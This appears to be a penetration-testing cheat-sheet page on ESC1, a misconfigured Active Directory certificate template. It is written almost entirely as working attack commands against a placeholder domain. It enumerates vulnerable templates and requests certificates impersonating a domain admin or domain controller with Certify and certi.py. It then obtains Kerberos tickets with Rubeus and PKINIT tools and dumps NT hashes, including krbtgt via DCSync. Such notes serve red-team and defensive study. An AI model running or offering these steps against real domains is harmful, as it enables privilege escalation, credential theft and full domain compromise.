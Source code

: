 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

The vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.




## Enumerate

Find template with this misconfiguration with native Active Directory module:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```




## Exploit



### From Windows

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```



### From Linux

- [https://github.com/zer1t0/certi](https://github.com/zer1t0/certi)
- [https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Get TGT:

```
$ getTGT.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local -dc-ip 192.168.1.11
```

List CAs and servers (short):

```
$ certi.py list megacorp.local/snovvcrash -k -n --dc-ip 192.168.1.11 --class service
```

List CAs (verbose):

```
$ certi.py list megacorp.local/snovvcrash -k -n --dc-ip 192.168.1.11 --class ca
```

Enroll a certificate with privileged subject in SAN:

```
$ certi.py req megacorp.local/snovvcrash@CA01.megacorp.local CA01 -k -n --dc-ip 192.168.1.11 --template VulnTemplate --alt-name 'DC01$'
```

Request TGT providing certificate:

```
$ base64 -w0 DC01.pfx > DC01.pfx.b64
$ python3 gettgtpkinit.py megacorp.local/'DC01$' -pfx-base64 `cat DC01.pfx.b64` -pfx-pass admin -dc-ip 192.168.1.11 DC01.ccache
```

Request NT hash providing TGT or DCSync:

```
$ export KRB5CCNAME=DC01.ccache python3 getnthash.py megacorp.local/'DC01$' -dc-ip 192.168.1.11 -key <AS_REP_ENC_KEY>
$ export KRB5CCNAME=DC01.ccache secretsdump.py DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
